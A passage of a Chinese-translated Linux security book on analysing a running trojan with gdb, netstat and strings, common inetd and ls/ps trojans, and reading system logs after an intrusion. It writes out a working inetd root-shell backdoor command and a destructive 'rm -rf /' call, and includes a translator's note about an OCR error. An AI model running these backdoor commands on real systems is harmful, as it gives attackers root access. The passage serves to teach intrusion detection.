Attaching to program: /tmp/.genie, Pid 16887
Reading symbols from /lib/libdb.so.3...done.
Reading symbols from /lib/libresolv.so.2...done.
Reading symbols from /lib/libnl.so.1...done.
Reading symbols from /lib/libc.so.6...done.
Reading symbols from /lib/ld-linux.so.2...done.
Reading symbols from /lib/libnss_files.so.2...done.
Reading symbols from /lib/libnss_nisplus.so.2...done.
Reading symbols from /lib/libnss_nis.so.2...done.
0x4012354e in __select () from /lib/libc.so.6
(gdb)
```

此时，你希望发出的第一个命令是 `bt`，以生成回溯。这将显示哪个例程调用了哪个。通常，这能让你对程序内部可能发生的情况有一个很好的了解。你可能会看到以下内容：

```
(gdb) bt
#0 0x4012354e in __select () from /lib/libc.so.6
#1 0x5 in _wish ()
#2 0x400901eb in __libc_start_main (main=0x805eed0 argc=3,
argv=0xbffff9b4, init=0x804a054,
rtld_fini=0x4000a610 <dl_fini>, stack_end=0xbffff9ac)
at ../sysdeps/generic/libc-start.c:90
(gdb)
```

这告诉了我们许多有趣的事情。`__select ()` 例程是当前正在运行的。这是 `select ()` 系统调用，它使程序等待，直到指定的打开文件（文件描述符）集合中任何一个完成 I/O。通常，这些打开文件中的至少一个是网络文件。`select ()` 系统调用是由名为 `wish ()` 的例程调用的。

这个可执行文件的程序名称为 `.genie`，有一个名为 `wish ()` 的例程，并且它可能正在等待来自网络的连接。一个好的猜测是，它正在等待黑客通过 TCP 或 UDP 连接到它并给它发送要执行的命令。但等等，还有更多。从另一个窗口，让我们看看它打开了哪些文件。发出命令：

```
cd /proc/16887
ls -l fd
```

*注：原文此处为 `monthly -1 fd`。根据上下文，这里应该是查看文件描述符目录，即 `ls -l fd` 或 `ls fd`。结合上一页的 `monthly -1` 推测，OCR 将 `ls -l` 识别为 `monthly -1` 的错误在这里再次出现，或者原文确实使用了某种非标准命令。但标准 Linux 操作是 `ls`。鉴于上一页的 `monthly -1` 被推断为 `ls -l`，这里的 `monthly -1 fd` 极有可能是 `ls -l fd`。我将进行此纠正。*

典型的输出如下：

```
lr-x------ 1 root root 64 May 17 01:55 0 -> /dev/null
l-wx------ 1 root root 64 May 17 01:55 1 -> /dev/null
l-wx------ 1 root root 64 May 17 01:55 2 -> /dev/null
lrwx------ 1 root root 64 May 17 01:55 3 -> socket:[17095]
```

文件描述符（打开的文件号）0、1 和 2 分别是标准输入、标准输出和标准错误。它们都重定向到了 `/dev/null`。标准输入和标准输出指向 `/dev/null` 的存在表明该程序正在作为守护进程运行；也就是说，它是一个长时间运行的进程，不与任何用户终端（tty）相关联。文件描述符 3 是一个套接字，例如网络连接。执行 `netstat -avp` 命令。`netstat` 命令提供网络状态信息。`-a` 标志列出所有打开的网络端口，包括那些当前未连接到远程系统的端口。`-v` 标志增加详细程度。`-p` 标志将使 `netstat` 列出每个拥有打开网络端口的进程（程序）的 PID 和名称。`-p` 标志是新增的且非常有用，但许多人并不知道它可用。使用 `-p` 标志需要 root 访问权限。执行 `netstat -avp` 时将显示以下内容：

```
Proto Recv-Q Send-Q Local Address Foreign Address State
PID/Program name
...
tcp           0       0 *:1243            *:*         LISTEN
16887//bin/is
...
```

这表明特洛伊木马正在监听 TCP 端口 `1243`。

> **Foreign Address**（外部地址）字段标识了程序正在与之通信的远程主机和端口，如果存在已建立的 TCP 连接。如果针对入侵者进程显示此信息，那将是其*发起*攻击的系统，或其*通过*你的系统发起攻击的系统。


在此示例中，`Foreign Address`字段中仅显示`* : *`，表示不存在此类连接。由于协议显示为`*tcp*`，这意味着该程序正在作为服务器运行，等待客户端连接。对于使用1023以上端口且*未*连接到远程系统知名端口的程序，要保持*极度*警惕。因此，此程序是可疑的。在1023以上的端口上，只有少数合法且广泛使用的服务。（1080用于SOCKS，6000用于X，6010用于SSH封装的X，2049用于NFS是常见的。）通过执行以下命令双重检查此端口：

```bash
grep 1243 /etc/services
```

`grep`没有找到任何结果。运行*第80页“关闭不需要的服务”中讨论的`ports`程序，并观察输出。

```
TCP
Lcl port     Rmt port  Status   Rmt IP   Rmt host
...
*  1243=subseven   0=zero  0A=LISTEN  0.0.0.0  local
*** cracker server
...
```

`ports`程序根据其默认端口号立即识别出该特洛伊木马。如果你的入侵者选择了更改其版本监听的端口，这可能更具挑战性，尽管`ports`会标记处于监听状态下的高端口TCP连接。大多数脚本小子甚至不会费心从可执行文件中剥离符号表。在这种情况下，你可以使用通常的调用方式通过`nm`程序查看符号。

```
nm suspicious_file | less
```

即使符号表已被剥离，几乎每个程序都包含ASCII字符串，这些字符串会提供有关其功能及来源的线索。`strings`程序搜索可打印字符序列并打印出来。`-a`标志将打印所有字符串，而不仅仅是文本和数据段中的字符串。典型用法如下

```
strings -a suspicious_file | less
```

它对运行程序也很有用。要分析运行中的进程号86，请使用以下命令：

```
strings -a /proc/86/exe | less
```

许多更高级的入侵者工具都有帮助消息，暗示其功能。

你可以更大胆地实际单步执行特洛伊木马。在此之前，备份系统是个好主意，因为此时你正在处理一个活动的“炸弹”，它可能会引爆。一旦你使用`gdb`（或我最喜欢的调试器`ddd`）附加到它，它就被停止（“冻结”），直到你允许它继续。`ddd`调试器可从

```
http://www.gnu.org/software/ddd/
```

获取。当`.genie`停止时，它无法自行重启，因此在当前时刻创建当前系统的备份或继续其他事情是相对安全的。任何地方都可能有特洛伊木马，因此你应该信任这些都被分析之前不要信任该系统，正如*第491页“查找被入侵者修改的文件”中讨论的那样。

如果你确实想要单步执行，你可以`telnet`到它。在此示例中，你可以通过不同窗口中的以下命令执行此操作：

```
telnet www.pentacorp.com 1243
```

然后，在`gdb`（或`ddd`窗口）中单步执行代码。在执行前检查每条指令，以确保它不会做有害的事情，例如

```
execl ("rm", "/bin/rm", "-rf", "/", 0);
```

如果有疑问，终止调试会话。最安全的方法是首先执行以下命令。（在我们的示例中，特洛伊木马的PID是16887。）

```
kill -9 16887
```

可以对*wizbang*进程进行类似的分析。

### 12.2.1 常见的特洛伊木马

此处讨论了一些最常见特洛伊木马。如果你怀疑自己拥有一个或多个特洛伊木马，它们为搜索特洛伊木马提供了起点，它们还让你对预期的特洛伊木马类型有了“感觉”。关注安全邮件列表、新闻组和网站（均在附录A中介绍）至关重要，因为每周都会发现新的漏洞利用。

检测特洛伊木马的一种方式是使用Tripwire，这在*第386页“Tripwire”中有讨论。定期使用`tar -d`或`rpm`也很有效。这两种方法在*第491页“查找被入侵者修改的文件”中有讨论。此外，扫描系统中打开的端口，并仔细与*netstat*或*ports*的过往结果进行对比，应能显示任何过去未打开的可疑端口。

- 1. `fingerd`程序通常被替换为包含特洛伊木马的版本。Tripwire通常应能检测到这一点，因为`fingerd`的完整路径名应在`/etc/inetd.conf`中指定，或通过其使用`tcpd`暗示，且假设Tripwire配置为监视所有系统目录。

- 2. `xinetd`或`inetd`进程是互联网“超级服务器”守护进程，基于远程系统的请求启动大多数网络服务。一旦入侵者拥有root访问权限，使用`inetd`创建特洛伊木马非常容易且快速。以root身份运行的入侵者只需做的是

```
echo ingreslock stream tcp wait root /bin/sh -i > /tmp/tim
/usr/sbin/inetd /tmp/tim
/bin/rm /tmp/tim
```

创建`xinetd`特洛伊木马几乎同样容易。`ingreslock`服务似乎很流行；也许某些防火墙允许它。然而，任何未使用的TCP服务都可以使用。当然，因为入侵者需要root权限才能创建此后门，他可以添加新的服务名称到`/etc/services`或更改现有服务的端口号。

检测此妥协的最佳方式是知道你的系统上*应该*运行哪些服务，并每天或每周使用`ports`或`netstat -atupv`，可能与存储在文件中的过往结果进行比较。

当然，你可以像入侵者那样通过以下方式测试漏洞利用

```
telnet yoursys.com ingreslock
```

看看是否能获得root shell，但这可能很危险。虽然上述特洛伊木马很简单（虽然绝非无害），但后续版本可能需要密码，如果未提供正确密码则可能损坏系统。这就是使用不受信任软件的风险所在。

Tripwire*不会*检测到这种妥协，因为`inetd`和`/etc/inetd.conf`未被修改。你可以通过以下命令计算正在运行的`inetd`进程数量

```
ps -axlww | grep inetd | grep -v grep | wc -l
```

但在`inetd`在启动请求的服务前执行`fork`以进行`exec`时，请预期会出现周期性的误报。

注意，使用第二个运行中的`inetd`进程使用恶意的`inetd.conf`文件，使得入侵者可以以极少的精力或思考投入来实现许多其他漏洞利用。例如，他可以如本节前面所述在系统上安装被修改的`fingerd`。

然而，为了避免被Tripwire和其他文件系统比较方法检测到，他删除了`/tmp/tim`。

- 3. 一些入侵者会创建一个在`inetd`本身中内置了特洛伊木马的`/usr/sbin/inetd`可执行文件。通常，此版本将监听额外的TCP端口，如`ingreslock`，并为使用`telnet`连接魔法端口的任何人提供root shell。此特洛伊木马将被Tripwire检测到。

然而，入侵者甚至可以从Tripwire或`tar -d`中隐藏此特洛伊木马。这是通过调用特洛伊木马版本为`/usr/sbin/inetd`，然后将其从磁盘上删除并将“真实的”版本放回原处来实现的。因此，

```
ls -1 /proc/PID/exe
```

将指回`/usr/sbin/inetd`，而Tripwire将显示`/usr/sbin/inetd`与Tripwire存储的*校验和*完全相同；同样，如果入侵者将创建时间调回过去，`tar -d`将显示`/usr/sbin/inetd`与备份副本匹配，尽管有些入侵者不会费心这样做。检测此细微问题的一种方式是执行以下命令

```
cmp /proc/PID/exe /usr/sbin/inetd
```

如果入侵者确实从磁盘上删除了可执行文件，`getdel`脚本将自动检测并提醒你。该脚本在*第392页“检测已删除的可执行文件”中有讨论。

- 4. 一些入侵者会安装`/bin/ls`和`/bin/ps`的版本，其中包含特洛伊木马，不会列出入侵者的任何文件，也不显示入侵者的进程。这种技术被入侵者相当频繁地使用。甚至脚本小子也使用它。当然，Tripwire会检测到这些特洛伊木马。

在某些无害的地方存储这些程序的不同名称的备份版本对你很有帮助。在紧急情况下，你可以使用不同的程序来执行相同的功能，例如使用`file`程序替代`ls`。不要使用可能被篡改的`ps`，

# 第13章：查找和修复损坏

此时，你已检测到入侵。如果你的预算和准备工作允许，我们假设你已经切换到了“辅助控制”，即安全备份系统（Sec-Back），该系统用于在主系统被攻破时使用。这将为你争取更多的时间来查找损坏情况。


我们假设攻击者可能已经提权为 root 用户并且手法狡猾。这意味着你无法信任磁盘或内存中的任何数据。希望确保日志文件已复制到另一台未被渗透的系统上，并且你已制作了定期备份并保存在安全存储中，等等。实时复制日志文件的技术在第 480 页的“syslogd 和 klogd 守护进程”中进行了说明。

本章涵盖的主题包括：

- “检查你的 `/var/log` 日志”见第 480 页
- “syslogd 和 klogd 守护进程”见第 480 页
- “远程日志记录”见第 480 页
- “解读日志文件条目”见第 481 页
- “检查其他日志”见第 488 页
- “检查 TCP 包装器响应”见第 488 页
- “文件系统如何被破坏”见第 488 页
- “植入虚假数据”见第 489 页
- “被篡改的监控程序”见第 489 页
- “困在镜像屋中”见第 490 页
- “重新获取控制权”见第 490 页
- “查找被攻击者篡改的文件”见第 491 页
- “封堵漏洞”见第 498 页
- “查找 set-UID 程序”见第 499 页
- “查找 mstream 木马”见第 500 页

## 13.1 检查你的 `/var/log` 日志

许多 Linux 守护进程和其他重要程序（以及内核）都会保留其活动的日志文件，你应该至少每天扫描这些日志文件以查看入侵迹象。扫描技术已在第二部分中详细讨论，包括使用诸如 `logcheck` 等自动扫描器，它能从成千上万条枯燥的常规条目中识别出由攻击者产生的条目。如果你的系统连接到互联网，你至少每周都会看到入侵尝试。

Linux 和 UNIX 有一个标准目录，大多数日志文件都保存在其中，对于 Red Hat 等发行版而言是 `/var/log`，而对于 Slackware 等发行版而言是 `/var/adm`。我通常会创建从其中一个存在的目录到另一个名称的符号链接，以便我在设置好系统后不必再担心这种区别。（我还会对邮件目录这样做，这样我就可以通过 `/usr/mail` 始终访问它，尽管在 Linux 上它通常是 `/var/spool/mail`。）

## 13.2 `syslogd` 和 `klogd` 守护进程

这些守护进程为守护进程、其他程序和内核提供了标准的日志记录机制，允许控制消息如何记录，并允许远程记录到更安全系统中。在第二部分中，你学习了如何使用它们。在这里，你学习如何在怀疑攻击者已经动手时解读结果。

## 13.3 远程日志记录

`/etc/syslog.conf` 文件可以接受一个动作，将消息发送到另一个 Linux 或 UNIX 系统进行日志记录。这就是为什么所有记录的消息中都会反映主机名的原因。要做到这一点，请指定一个以 at 符号 `@` 开头并跟随远程系统主机名的动作，如下所示：

```
*.warn;authpriv.notice;auth.notice @secure.pentacorp.com
```

为了使这起作用，接收消息以进行日志记录的目标系统必须允许此操作。要允许此操作，该系统的 `syslogd` 守护进程（本例中为 `secure.pentacorp.com`）必须使用 `-r` 标志启动。如果没有这个 `-r` 标志，`syslogd` 将静默丢弃消息，以避免拒绝服务攻击，因为攻击者可以用虚假消息填满其磁盘。（应使用 IP Chains 或防火墙来阻止来自未经授权主机的 UDP 端口 514，以保护免受此攻击。）你的 `/etc/services` 文件需要列出 UDP 端口 514 作为 `syslog` 服务的端口，但任何 Linux 发行版默认都应如此设置。

如果你想改变这种配置，使得系统 X 向系统 Y 发送消息，并且 Y 向 Z 发送来自 X 和它自己的消息，那么 Y 上的 syslogd 守护进程必须同时具备 `-r` 和 `-h` 选项；其中 `-h` 标志允许转发远程消息。当然，在修改 `/etc/syslog.conf` 文件或服务调用方式（通常通过 `/etc/rc.d/init.d/syslog restart`）之后，你需要重启 syslogd 守护进程。

## 13.4 解读日志文件条目

通过研究日志文件，你可以了解到关于攻击者及其造成损害的大量信息。当然，如果高明的攻击者突破防御，一旦他成功获得 root 权限，他会篡改日志文件。一些破解者会耗尽你的磁盘空间，导致没有剩余空间来记录他们的行为。这并不需要具备 root 权限。配额（Quotas）可能会有帮助。一些攻击者则会在退出前直接截断或删除你的日志文件。

虽然这可能掩盖了他们入侵途径的证据，但它可能会留下时间戳和其他表明他们从你的系统退出的证据，这些仍然能提供一些线索。请记住，大多数程序如果日志文件不存在，就会创建一个新的日志文件。最狡猾的攻击者会删除你的日志文件，并将每一个都链接到 `/dev/null`。如果日志文件保持完整，这意味着他未能获得 root 权限，他粗心大意，他不在乎，或者他在工作中途被打断了。如果属于“不在乎”的情况，可能意味着他使用的是一个无法追溯到他本人的中间系统。

一位系统管理员成功地在破解者删除日志文件后恢复了大部分日志内容，方法是使用 `dd` 读取磁盘分区，并配合 `grep` 过滤出特定日期的记录。假设可疑的入侵发生在你名为 `cavu` 的系统的 12 月 21 日，且你的根文件系统是 `/dev/sda1`。以下命令可以找到可能的日志条目：

```
dd bs=10k if=/dev/sda1 | grep 'Dec 21 . . . . . . . . cavu ' | more
```

你的日志文件格式可能略有不同，因此你可能需要稍微调整此命令。如果你想将输出存储到磁盘（通过 `tee` 或标准输出重定向），请尝试使用不同的磁盘分区，以避免 `dd` 找到你的输出并创建反馈循环！

希望你已经安排将日志文件的副本通过电子邮件或远程日志记录转发到另一个系统。现在，我们将探讨如何解读各个日志文件，重点在于与安全相关的消息。所有关于尝试或成功入侵的指示都应得到后续跟进。对于大多数通过 `inetd.conf` 处理的服务，TCP Wrappers 在锁定来自尝试入侵系统的访问方面非常有用。这些文件通常位于 `/var/log` 目录中；它们的名称和内容在 `/etc/syslog.conf` 中指定，并因 Linux 发行版而异。

### 13.4.1 lastlog

此文件以二进制格式存储用户的登录数据，由 `login` 生成。一个名为 `lastlog` 的程序可用于显示每个用户最近一次登录的时间。如果这与你预期的不符，你可能已经找到了入口点。诸如 `bin`、`daemon`、`adm`、`uucp`、`mail`、`uucp`、`operator`、`man`、`games` 和 `postmaster` 等系统账户绝不应该显示为已登录状态。

如果其中一个账户显示为已登录，系统管理员可能忘记了禁用其登录功能，甚至允许其没有密码。如果一个用户在休假期间登录了系统（并且她没有通过互联网或笔记本电脑的访问权限），那么她可能有一个容易猜到的密码，或者在她所在的另一个被入侵系统上留下了明文密码副本。

### 13.4.2 messages

`messages` 文件是许多进程日志的通用容器，经常显示入侵尝试和成功情况。每一行由日期、主机名、带方括号的进程 ID（PID）的程序名称（或内核标签）、冒号（: ）和空格组成，后跟消息内容。大多数系统将它们的 `/etc/syslog.conf` 文件配置为写入 `messages` 文件。

这个文件的问题在于，错误条目（如入侵尝试和成功）淹没在常规的“一切正常”条目中。这就是为什么建议你在 `/etc/syslog.conf` 中创建条目以生成不含常规消息的 syslog 文件。然而，当你怀疑有入侵或尝试时，有些“常规”消息会很有帮助。希望你已经在使用 `grep` 监控这些消息。它们包括：

- `PAM_pwdb` 条目，在大多数最新发行版的 PAM 中可用，记录通过 `login`、`rsh` 或 `su` 启动的交互式会话的开始和结束。在 `su` 的情况下，它显示了从哪个账户启动了 `su`。这可能表明破解者是如何进入系统的。请注意，`su` 和 `rsh` 会话不会显示在 utmp 或 utmp 文件中。（将由你来确定她是猜中了密码，还是利用了安全漏洞或特洛伊木马。）

- `pam_rhosts_auth` 条目显示诸如远程系统对系统进行 `rsh`（远程 shell）和 `rcp`（复制到/从远程系统复制）请求等情况，记录他来自的系统以及他登录时使用的用户。许多熟练的用户会创建 `.rhosts` 文件，以允许在他们拥有账户的各个系统之间（通常是非交互地）调用远程 shell。一旦破解者入侵了一个系统，他们很容易通过这种方式扩散。

- `kernel` 条目显示文件系统的挂载、可移动介质和设备驱动的加载与卸载。偶尔，破解者会在其利用过程中使用这些方法。拥有物理访问权限的破解者可能会尝试挂载他们的介质（包括磁带），上面可能包含带有 set-UID 位权限的程序。


Linux 通常只允许 `root` 挂载设备（与非常旧的 UNIX 版本不同），以防止这种利用；如果你有一些自动进程或 `set-UID` 程序以不受控制的方式挂载，那么这个特性就会失效。内核条目 "Unable to load interpreter" 通常意味着你的系统内存不足，可能是由于 Netscape 的 bug 导致内存泄漏。

- `ftpd` 条目显示每个 FTP 客户端启动会话的时间，显示客户端系统和用户名，以及会话结束的时间。如果你不安全地设置了 FTP，这就是一种常见的利用方式。允许整个系统使用 FTP 并依赖标准 Linux 用户和组安全的系统管理员，会发现所有公共可读文件（包括 `/etc/passwd`）被复制到外部，从而使破解者能够快速破解系统中的密码。

而不是在带宽狭窄的网络上逐个尝试，他简单地生成可能的密码组合，对每个密码进行加密，并与他的 `/etc/passwd` 文件副本中的每个加密密码进行比较。他每秒可以尝试数百次。（有关单个 FTP 传输的详细信息，请参见 `xferlog`。）

- `login` 条目显示失败的登录记录，列出用户、`tty` 设备（通常是 `ttypX` 形式的伪 `tty` 设备）和远程系统（如果有）。显然，重复的失败尝试通常是对系统的破解尝试。

无论是由 `getty` 调用的 `/bin/login` 的本地登录，还是由 `in.telnetd` 调用的 `/bin/login` 的远程登录，其记录方式相同，区别在于远程登录会显示其登录来源的系统名称。只有失败的登录尝试通过此机制记录，因为成功的登录记录在 `wtmp` 文件中（如前文所述）。

不幸的是，`login` 仅在尝试登录的是现有账户时，才记录某人未成功尝试登录的账户名称。如果指定了无效的账户名称，`login` 仅显示 `UNKNOWN`。这阻止了通过分析模式来确定问题。

我建议你从源代码 CD-ROM（或互联网）获取 `login` 的源代码，并修改 `/bin/login` 以报告实际尝试的名称，可能将 `UNKNOWN` 改为 `INVALID-ralph`。因此，如果你在凌晨稍后看到四次未成功的登录，显示为：

```
INVALID-jjsmith
INVALID-jsmith
INVALID-jssmith
INVALID-smith
```

并且你有一个名为 John Smith 的用户，你可能会假设他只是在喝了几杯酒后试图登录，而且打字有点困难。另一方面，如果在同一时间日志显示：

```
INVALID-root
INVALID-joe
INVALID-dave
INVALID-mike
```

你可能会假设攻击者（cracker）正在猜测账号，你会希望通过 TCP Wrappers 或其他讨论过的技术来阻止其系统访问。

> 如果记录输入错误的登录名是个好主意，那记录输入错误的密码怎么样？这将允许系统管理员（SysAdmins）判断密码是单纯输入错误还是正在被猜测。1978 年左右，包括 Bill Joy 在内的伯克利（Berkeley）系统管理员曾尝试过这种方法。

他们“聪明”的主意未能考虑到他们试图捕捉的灰色帽子（gray hats，指亦正亦邪的技术人员或轻度攻击者）通过其他方式获得了 `root` 权限，但不知道 `root` 密码。在系统管理员尝试登录时出现了一天份的打字错误后，真实的密码显然就暴露了。考虑一下这些打字错误指示的密码是什么：

secret

scret

sercet

seecret

secre

解决此问题的一个复杂方案可能是使用内置于登录过程中的安全加密方法来存储或传输输入错误的密码的加密形式。可以使用 GPG 的过滤功能。

`sendmail` 条目显示了远程系统连接到你的 `sendmail`，可能是为了利用除最新 `sendmail` 程序外的安全漏洞，或者通过你的系统中继反弹垃圾邮件（bounce spam off your system by relaying it）。

`syslogd` 条目显示 `syslogd` 退出（通常通过终止信号，即信号 15），这可能是攻击者停止 `syslogd`，以便它不记录其操作。（如果攻击者聪明，他会使用 Kill 信号，即信号 9，这样 `syslogd` 就没有机会记录该事件。）另一个 `syslogd` 条目可能是它启动，这可能是攻击者在完成其卑劣行为后启动的。常规条目是当 `syslogd` 被 `logrotate` 重启以开始使用新的日志文件时，这应该引起你的关注。

`init` 条目由 `init` 生成，`init` 是在系统启动时创建的第一个非内核进程，它 fork 系统中所有其他进程。常见的条目是系统切换状态，其中状态 S 是单用户状态，状态 3 是启用了网络的正常多用户状态，状态 2 是无网络的多用户状态（在 Linux 中很少使用），状态 6 表示重新引导。`Init` 条目不在方括号中显示 `init` 的 PID，因为 `init` 始终是 PID 1。

`named` 条目由 DNS 守护进程 `named` 生成。典型的条目包括 `named` 启动、更新其区域信息以及被拒绝的请求。

`lpd` 条目显示了行打印机守护进程（Line Printer Daemon）遇到的错误；这些显示了配置不正确或可能的利用。

`dhcpd` 条目来自动态主机配置协议守护进程（Dynamic Host Configuration Program Daemon），它允许中央服务器指定你的系统应使用的 INET（IP）地址。这些“租约”会定期过期并必须续期。这里可能存在利用。

`last message repeated` 条目用于当一条消息连续发生多次时，指示它重复了多少次，以避免为重复事件（如内存溢出或遇到坏磁盘扇区）记录许多行日志文件条目。

### 13.4.3 syslog

与消息日志文件不同，`syslog` 仅记录“问题”，因此应更仔细地查看。典型问题包括登录时记录错误密码（这也可能指示无效的账号名）、失败的 `su` 尝试、`sendmail` 问题、`syslogd` 状况（这可能指示攻击者活动）以及 `in.telnecd` 拒绝访问。

### 13.4.4 kernlog

并非所有 Linux 发行版都附带配置为记录内核消息的 `/etc/syslog.conf` 文件。你肯定希望确保你的文件中有一行类似于

```
kern.* /var/log/kernlog
```

这将把所有优先级的内核消息记录到 `/var/log/kernlog` 文件。此文件将记录诸如在更换软盘后进行软盘 I/O、系统加载期间加载设备驱动程序、系统重启以及尝试向设置为只读的软盘写入等事情。虽然这些都可能只是正常操作，但如果没有授权人员执行这些操作，它们也可能是攻击者的行为。

其中一些消息不言自明，此处列出。（所有这些行都以日期开头；某些行为了适应页面进行了换行。）

```
Dec 9 15:10:34 cavu kernel: floppy0: Drive is write protected
Dec 9 15:10:34 cavu kernel: end_request: I/O error, dev 02:00, sector 0
Dec 15 11:16:15 cavu kernel: loading device 'eth0'...
Dec 15 11:16:15 cavu kernel: eth0: Bog us2000, port 0x360, irq 7,
     Auto port, hw_addr 28:44:29:31:0A:69
Dec 15 11:16:31 cavu kernel: eth0: autodetected 10baseT
Dec 17 20:27:25 cavu kernel: VFS: Disk change detected on device 02:00
```

### 13.4.5 cron

此文件记录 `cron` 守护进程 `crond` fork 的每个命令，由用户、时间、PID 以及 fork 进程的动作组成。动作 `CMD` 是 `cron` fork 计划进程的正常情况。动作 `REPLACE` 是记录该用户更新其列出定期执行任务计划的 `cron` tab。在 `REPLACE` 后不久的 `RELOAD` 动作表示 `cron` 注意到用户的 `crontab` 已更新，并且 `cron` 需要将其重新加载到内存中。你会希望寻找任何异常的情况。

### 13.4.6 xferlog

`xferlog` 文件是 FTP 传输的日志，可能显示攻击者将哪些文件复制到你系统上或从你的系统上复制出去。这些文件将显示他带入你系统伤害你的武器，以及他为你使用而复制的你的文件。


第一个空格分隔的字段是日期和时间，后续字段显示复制文件所花去的秒数、远程系统、文件大小、本地路径名、传输类型（a 表示 ASCII 或 b 表示二进制）、与压缩或使用 `tar` 相关的标志（如果没有则为 `_`）、方向（i 表示传入或 o 表示传出，相对于你的系统）、访问模式（a 表示匿名，g 表示密码访客，或 r 表示真实用户）、用户名、服务名称（通常是 ftp）、认证方法（1 表示 RFC 931¹ 或 0）以及认证用户 ID（或 *）。请注意，FTP 是在系统之间移动文件的众多方式之一。

### 13.4.7 daemon

此文件并不存在于所有 Linux 系统上，它记录其他未讨论的守护进程的活动。其中之一是 `cardmgr`，它管理笔记本电脑的 PCMCIA 可移动卡。

### 13.4.8 mail

此文件有时称为 `maillog`，包含每个进入或离开系统的电子邮件条目的记录。其主要安全用途是查看攻击者可能使用哪些系统将破解工具传入或将你的数据传出。

它还将显示实际用于垃圾邮件发送者的地址；这可以帮助你阻止他们未来的尝试。似乎有大量的垃圾邮件来自分配给各种国家的各个顶级域名，你可能与这些国家（如俄罗斯和其他东欧国家以及各个岛屿）没有太多的电子邮件往来。虽然你可以跟踪一段时间然后阻止这些域名以减少电子邮件，但在第 133 页的“阻止垃圾邮件”中提供了一个更好的解决方案。

¹ RFC 931 可在 www.faqs.org/rfcs/rfc931.html 获取

这个日志文件很容易解释。如果你的系统正在使用一个实际将电子邮件发送到目的地的“中继”系统，这将在日志中注明。同样，由于系统停机而通常临时失败的尝试也会被注明。成功和延迟电子邮件的时间是攻击者操作时间的线索。此外，从非真实用户（如 bin）或处于休假、已离职等状态的人员的账号发出的电子邮件，除非是由自动程序生成的，否则都来自攻击者。后者的例子包括“vacation”机器人、`cron` 任务和日历。

在邮件日志文件中要查找的第二个安全问题是使用你的系统作为“邮件中继”，通常是由垃圾邮件发送者进行的。我称之为“代发垃圾邮件”（drop-shipping spam）。这意味着向你的系统发送电子邮件（通过连接到你的 25 端口，你那里可能正在监听 `sendmail`），其目标地址既不是你的系统，也不是你有意中继邮件的系统。

如果你让系统对此保持开放，很可能会发现垃圾邮件发送者利用这一点发送看似源自你系统的垃圾邮件给全世界。这是因为标准的 `sendmail` 并不总是向收件人指示电子邮件来自哪里，因为这是发送系统邮件软件的工作。

垃圾邮件发送者通过在其 `/etc/sendmail.cf` 文件或基于 Windows 的垃圾邮件软件中将你的主机名指定为“智能中继”（smart relay）来实现这一点。这生成了请求你的 `sendmail` 将其电子邮件转发给最终受害者的电子邮件。这些电子邮件将显示你的系统作为垃圾邮件的发起者，而不是他们的。最近的大多数发行版默认设置为阻止邮件中继。你应该验证这一点，如第 133 页的“代发垃圾邮件（中继垃圾邮件）”中所讨论的那样。

其后果是你的系统将承受发送所有垃圾邮件的负载（因为他发给你的每个电子邮件消息都可以请求几十或几百个收件人），并且你的系统会被当作垃圾邮件发送者的系统对待。这将导致许多站点将你的系统作为垃圾邮件站点阻止所有来自你系统的电子邮件。

互联网上有几个站点生成垃圾邮件来源站点的列表，并自动（免费）将这些列表发送给许多订阅站点，这些站点随后会自动阻止来自这些地址的电子邮件。如果有人通过你的站点发送垃圾邮件，你会发现你的合法传出电子邮件被阻止；很难让你的站点从这些列表中移除（否则垃圾邮件发送者也会声称不知情和清白）。

如果你是一个大型站点，还有一个额外的问题，即你会获得发送垃圾邮件的不良声誉，站点和个人将阻止你的电子邮件，不访问你的网站或业务等。

使用相当现代的 `sendmail` 版本（如 8.8.7），被阻止的中继尝试的日志消息看起来像这样：

```
Dec 15 08:04:57 cavu sendmail[12657]: IAA12657: ruleset=check_rcpt, arg1=<test@keyyoung.com.hk>, relay=IDENT:administrator[202.82.80.136], reject=551 we do not relay
```

## 13.5 检查其他日志

除了 `/var/log` 中的日志文件外，入侵者可能还在其他位置留下了证据。这些地方包括：

- 1. root 和其他账户的 shell 历史记录文件
- 2. 用户的各种邮箱，包括发件箱（如 `.sent`）、mbox，以及 `/var/spool/mail` 和 `/var/spool/mqueue` 中的文件
- 3. `/tmp`、`/usr/tmp` 和 `/var/tmp`
- 4. 隐藏目录，例如 `/home/*/.??*`
- 5. 其他由入侵者创建的文件，通常是隐藏的，文件名以 “.” 开头
- 6. 备份磁带
- 7. 文件系统中的空闲空间，虽然搜索这部分内容比较复杂
- 8. 其他系统的日志，例如防火墙、已被攻破的中间系统以及 ISP 的系统

## 13.6 检查 TCP Wrapper 的响应

TCP Wrappers 会记录那些因 `/etc/hosts.allow` 和 `/etc/hosts.deny` 中指定的规则而被拒绝的连接尝试。TCP Wrappers 不会记录被允许的 连接，因为它假设底层服务如果需要会自行记录这些连接。主机名之后出现的服务名称是 `/etc/inetd.conf` 文件中的第七个字段，即“服务器程序参数”。`tcpd` 程序在记录该名称时，会剥离最后一个斜杠及其后的内容（如果有）。这通常是正常守护进程的 名称，例如 `in.telnetd`。

接下来是 `tcpd` 进程的 PID，用方括号括起来，该进程是由 `/etc/inetd.conf` 文件中指定的 `inetd` 启动的。这一行的其余部分将是 `refused connect from cracker.com`，其中 `cracker.com` 是被拒绝请求的那个系统。

## 13.7 文件系统可能遭受的损害

一个技术高超且彻底的入侵者会修改 set-UID 程序，修改 root 可能会使用的非 set-UID 程序，甚至可能修改内核。他还会将文件的修改时间甚至创建时间重置为原来的样子，以躲避 `ls -l`、`ls -lc` 或 `find / -mtime -10 -print` 的检测，从而隐藏他的行踪。

修改时间是文件内容（数据）最后被更改的时间。创建时间（这是一个不准确的称呼）是文件内容或 inode 信息最后一次被更改的时间。inode 信息（*I* 代表 information）包含文件的所有者、权限、文件大小、时间戳、数据块在磁盘上的位置等。访问时间（Access time）是文件内容最后一次被读取的时间。在 Linux 上，写入文件不会更新访问时间（但在某些 UNIX 系统上会）。

Linux 内核会自动更新所有时间，但用户可以使用 `touch` 命令更改自己文件的修改时间或访问时间。创建时间只能通过更改系统时钟或写入 `/dev` 中的文件系统磁盘设备来任意修改。在过去，我们做过所有这些事情（但从未出于恶意）。最顶尖的入侵者会让被篡改的程序与原始程序保持相同的大小，甚至拥有 `sum` 提供的相同校验和。他们是如何做到的？

